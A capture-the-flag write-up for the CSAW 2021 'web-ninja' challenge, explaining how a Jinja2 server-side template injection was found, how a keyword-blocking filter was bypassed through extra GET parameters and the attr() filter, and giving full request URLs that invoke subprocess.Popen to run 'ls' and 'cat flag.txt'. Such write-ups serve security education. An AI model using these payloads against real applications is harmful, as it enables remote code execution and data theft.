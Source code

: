 # web-ninja

## Description

```
Hey guys come checkout this website i made to test my ninja-coding skills.

http://web.chal.csaw.io:5000
```

## Task Analysis

A shoutout to [Payloads All the Things](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection) for being incredibly useful during this challenge.

The link given in the description presents us with the following webpage where the only notable page element is a field for user input:

![webpage](/CSAW-2021/web-ninja/screenshots/the_site.PNG)

When input is submitted, the page displays "Hello " followed by whatever was typed into the submission field.

I confirmed that xss injection was possible. However, this was not helpful to me since the site would not present our malicious scripts to anyone but ourselves. Switching gears, I used Wappalyzer to find that the site was built using Python 2.7, and I noted that the challenge's name, "Ninja" could potentially be hinting at the "Jinja" framework. I submitted the following to check for a SSTI vulnerability:
```
{{}}
```
The "{{}}" was not rendered, indicating it had been interpreted as a template and that there was potential for an SSTI injection. 

I used the following to confirm what framework was being used:

```
{{'7'*7}}
```
Which rendered as:
```
Hello 7777777
```
This confirmed my suspicion that Jinja2 was the framework being used. 
After attempting to access the config object using {{config.items()}} I recieved:

```
Sorry, the following keywords/characters are not allowed :- _ ,config ,os, RUNCMD, base
```
I now knew that there was a WAF to bypass.

Our goals from here were to: 
1. Find a way to bypass the WAF.
2. Create a payload that establishes RCE and allows us to look for the flag, which I suspected was likely stored either in the config object or in the page's working directory.
3. Create a payload that reads the flag and profit.

## Solution
# WAF Bypass
I found that The WAF was designed to only check the contents of the "value" GET parameter. Extra paremters went unchecked, so blacklisted keywords could be included in them and then accessed as strings via the request.args object. These strings could then be passed to the [built-in Jinja filter](https://jinja.palletsprojects.com/en/3.0.x/templates/#jinja-filters.attr) ```attr()```. The documentation tells us that ```attr()``` takes a string as an argument to "Get an attribute of an object. foo|attr("bar") works like foo.bar just that always an attribute is returned and items are not looked up..."
Using these features I could bypass the filter using urls constructed with additional get parameters like the following:

```
http://web.chal.csaw.io:5000/submit?value={{()|attr(request.args.class)|attr(request.args.bas)|attr(request.args.sub)()}}&class=__class__&bas=__base__&sub=__subclasses__
```

The above url returned a list of all the subclasses of the object type, meaning I could access any class loaded in the Python environment. I used a script to search this list for the subprocess.Popen class, and found it at index 258.

# Establishing RCE

I could now use the following url execute the "ls" command and achieve RCE:

```
response = requests.get("http://web.chal.csaw.io:5000/submit?value={{()|attr(request.args.class)|attr(request.args.bas)|attr(request.args.sub)()|attr(request.args.item)(258)(%27ls%27,shell=True,stdout=-1)|attr(%27communicate%27)()}}&class=__class__&bas=__base__&sub=__subclasses__&item=__getitem__")
```

The above produced the following output:

![ls_output](/CSAW-2021/web-ninja/screenshots/ls_output.PNG)

# Read flag
I now knew that the flag was located in the same directory as the site's application script. This meant I could access the flag with the same technique by invoking the "cat" command:

```
response = requests.get("http://web.chal.csaw.io:5000/submit?value={{()|attr(request.args.class)|attr(request.args.bas)|attr(request.args.sub)()|attr(request.args.item)(258)(%27cat flag.txt%27,shell=True,stdout=-1)|attr(%27communicate%27)()}}&class=__class__&bas=__base__&sub=__subclasses__&item=__getitem__")
```
Which produced the following:
![ls_output](/CSAW-2021/web-ninja/screenshots/ls_output.PNG)

I found the flag! - flag{m0mmy_s33_1m_4_r34l_n1nj4}
